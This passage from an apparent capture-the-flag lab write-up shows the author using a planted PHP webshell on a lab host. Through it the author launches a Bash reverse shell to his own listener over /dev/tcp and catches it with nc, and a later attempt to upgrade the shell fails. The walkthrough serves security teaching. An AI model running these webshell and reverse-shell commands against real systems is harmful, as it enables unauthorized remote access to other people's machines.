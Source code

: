 The last line before the prompt suggests it just has a webshell running. It works too:

```

oxdf@parrot$ curl 'http://10.10.10.233/shell.php' -d 'c=id'
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```

### Shell

To get a shell, I triggered the same webshell with a Bash reverse shell:

```

oxdf@parrot$ curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" 'http://10.10.10.233/shell.php'

```

`curl` hangs, but at my listening `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.233] 36008
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```

I tried to do the shell upgrade, but it complains about being out of PTY devices:

```

bash-4.2$ python3 -c 'import pty;pty.spawn("bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/lib64/python3.6/pty.py", line 154, in spawn
    pid, master_fd = fork()
  File "/usr/lib64/python3.6/pty.py", line 96, in fork
    master_fd, slave_fd = openpty()
  File "/usr/lib64/python3.6/pty.py", line 29, in openpty
    master_fd, slave_name = _open_terminal()
  File "/usr/lib64/python3.6/pty.py", line 59, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices

```

I wasn’t able to find a way around that. I didn’t really need a PTY shell, but if I did, I would have tried uploading `socat` next.
